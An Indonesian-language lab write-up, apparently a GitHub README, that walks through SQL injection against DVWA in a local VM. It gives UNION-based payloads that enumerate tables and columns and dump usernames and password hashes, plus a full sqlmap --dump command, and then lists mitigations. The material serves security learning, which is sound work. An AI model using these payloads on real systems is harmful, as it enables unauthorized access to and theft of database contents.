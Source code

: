 # SQL Injection Attack

## Project Overview

**Target:**

- Aplikasi web: DVWA (Damn Vulnerable Web Application)
- Server: Ubuntu 24.04 LTS dengan Apache2, MySQL, PHP

**Goal:**

- Melakukan eksploitasi SQL Injection untuk mendapatkan data sensitif, mendokumentasikan langkah-langkah dan hasilnya.

---

## Environment Setup

| Komponen | Versi / Tools             |
| -------- | ------------------------- |
| Target   | DVWA + MySQL di Ubuntu VM |
| Attacker | Kali Linux                |
| Tools    | Browser, sqlmap           |

- IP Target: `192.168.56.105`
- IP Attacker: `192.168.56.103`

---

## Langkah-langkah Eksploitasi

### 1. Login dan Konfigurasi DVWA

- Login ke DVWA dengan `admin:password`
- Set `DVWA Security` → `Low`

[screenshot halaman DVWA Security](dvwa-security.png)

---

### 2. Uji Basic SQL Injection

- Input pada User ID:
  `1' or '1'='1`
- Hasil: menampilkan semua user dari database.

[screenshot hasil injection](hasil-injection.png)

---

### 3. Enumerasi Database

#### a. Mendapatkan nama database

`1' UNION SELECT null, database() -- -`

[screenshot hasil database name](nama-database.png)

#### b. Enumerasi tabel

`1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database() -- -`

[screenshot daftar tabel](daftar-tabel.png)

#### c. Enumerasi kolom tabel `users`

`1' UNION SELECT column*name, null FROM information_schema.columns WHERE table_name='users' -- -`
[screenshot kolom tabel users](kolom-tabel-user.png)

---

### 4. Dump Data Sensitif

- Ambil user & password hash
  1' UNION SELECT user, password FROM users -- -
  [screenshot dump user/password](dump-user-password.png)

---

### 5. Automatisasi dengan Sqlmap

`sqlmap -u "http://192.168.56.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=73q2oefkph1k37shqj7fi2l36i" --dump`

[screenshot sqlmap dump](sqlmap-dump.png)
[screenshot sqlmap dump csv](csv-dump.png)

---

## Rekoemdasi Mitigasi

| No  | Mitigasi                   | Tujuan                    |
| --- | -------------------------- | ------------------------- |
| 1   | Prepared Statements / Bind | Mencegah query injection  |
| 2   | Validasi & Sanitasi Input  | Input sesuai ekspektasi   |
| 3   | Hide SQL Errors            | Cegah informasi bocor     |
| 4   | Least Privilege DB User    | Batasi dampak exploit     |
| 5   | Gunakan WAF / IDS          | Blok otomatis payload     |
| 6   | Penetration Testing Rutin  | Deteksi celah lebih dini  |
| 7   | Update Software            | Tutup vulnerability lama  |
| 8   | Hardening Konfigurasi      | Minimalkan attack surface |

---

## Kesimpulan

Melalui uji coba pada aplikasi DVWA (Damn Vulnerable Web Application), saya berhasil mendemonstrasikan bagaimana serangan SQL Injection dapat dieksekusi untuk mendapatkan informasi sensitif dari basis data, seperti username, hash password, serta data tabel lainnya. Pengujian ini menunjukkan betapa rentannya sebuah aplikasi web jika tidak dibangun dengan praktik keamanan yang baik.

Dari hasil simulasi menggunakan sqlmap, terbukti bahwa parameter yang tidak divalidasi dan query yang tidak diamankan dengan prepared statements dapat dengan mudah dieksploitasi untuk mengeksekusi perintah SQL arbitrary. Hal ini dapat mengakibatkan kebocoran data, modifikasi database tanpa izin, hingga potensi eskalasi ke sistem operasi server.

Untuk menghindari risiko tersebut, sangat penting menerapkan langkah-langkah mitigasi yang tepat. Mitigasi utama yang direkomendasikan adalah penggunaan prepared statements atau parameterized queries dalam komunikasi dengan database, validasi dan sanitasi input pengguna, penerapan prinsip least privilege pada user database, serta rutin melakukan audit dan penetration testing untuk mendeteksi kerentanan sejak dini.

Dengan menggabungkan praktik pengembangan aplikasi yang aman (secure coding), konfigurasi sistem yang benar, penggunaan firewall aplikasi web (WAF), serta pemeliharaan berkala melalui update sistem dan testing, organisasi dapat meminimalisir risiko SQL Injection dan meningkatkan postur keamanan secara menyeluruh.

---

## Lampiran

- [DVWA Setup](dvwa-setup.sh)
- [CSV guestbook](sqlmap_dump/guestbook.csv)
- [CSV users](sqlmap_dump/users.csv)

---

## _Ditulis oleh:_

**Ibnu Hibban Dzulfikri**

LinkedIn: https://www.linkedin.com/in/ibnu-hibban-dzulfikri-b51a7824a

---

